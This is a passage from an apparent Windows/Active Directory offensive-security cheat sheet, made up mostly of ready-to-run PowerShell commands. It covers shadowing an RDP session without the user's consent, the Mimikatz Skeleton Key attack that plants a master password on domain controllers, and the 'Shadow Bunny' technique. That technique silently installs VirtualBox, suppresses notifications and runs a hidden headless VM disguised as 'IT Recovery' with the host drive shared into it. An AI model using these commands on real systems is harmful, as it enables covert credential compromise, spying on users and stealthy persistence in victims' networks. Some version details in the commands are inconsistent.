 ```powershell
# /noconsentprompt parameter allows to bypass a shadowee’s permission and shadow their session without their consent;
# /prompt parameter is used to specify a user’s credentials to connect to a remote host.
```

### Skeleton Key

```powershell
# Exploitation Command runned as DA:
Invoke-Mimikatz -Command '"privilege::debug" "misc::skeleton"' -ComputerName <DCs FQDN>

# Access using the password "mimikatz"
Enter-PSSession -ComputerName <AnyMachineYouLike> -Credential <Domain>\Administrator
```


### Virtual Machines

> Based on the Shadow Bunny technique.

```ps1
# download virtualbox
Invoke-WebRequest "https://download.virtualbox.org/virtualbox/6.1.8/VirtualBox-6.1.8-137981-Win.exe" -OutFile $env:TEMP\VirtualBox-6.1.8-137981-Win.exe

# perform a silent install and avoid creating desktop and quick launch icons
VirtualBox-6.0.14-133895-Win.exe --silent --ignore-reboot --msiparams VBOX_INSTALLDESKTOPSHORTCUT=0,VBOX_INSTALLQUICKLAUNCHSHORTCUT=0

# in \Program Files\Oracle\VirtualBox\VBoxManage.exe
# Disabling notifications
.\VBoxManage.exe setextradata global GUI/SuppressMessages "all" 

# Download the Virtual machine disk
Copy-Item \\smbserver\images\shadowbunny.vhd $env:USERPROFILE\VirtualBox\IT Recovery\shadowbunny.vhd

# Create a new VM
$vmname = "IT Recovery"
.\VBoxManage.exe createvm --name $vmname --ostype "Ubuntu" --register

# Add a network card in NAT mode
.\VBoxManage.exe modifyvm $vmname --ioapic on  # required for 64bit
.\VBoxManage.exe modifyvm $vmname --memory 1024 --vram 128
.\VBoxManage.exe modifyvm $vmname --nic1 nat
.\VBoxManage.exe modifyvm $vmname --audio none
.\VBoxManage.exe modifyvm $vmname --graphicscontroller vmsvga
.\VBoxManage.exe modifyvm $vmname --description "Shadowbunny"

# Mount the VHD file
.\VBoxManage.exe storagectl $vmname -name "SATA Controller" -add sata
.\VBoxManage.exe storageattach $vmname -comment "Shadowbunny Disk" -storagectl "SATA Controller" -type hdd -medium "$env:USERPROFILE\VirtualBox VMs\IT Recovery\shadowbunny.vhd" -port 0

# Start the VM
.\VBoxManage.exe startvm $vmname –type headless 


# optional - adding a shared folder
# require: VirtualBox Guest Additions
.\VBoxManage.exe sharedfolder add $vmname -name shadow_c -hostpath c:\ -automount
# then mount the folder in the VM
sudo mkdir /mnt/c
sudo mount -t vboxsf shadow_c /mnt/c
```
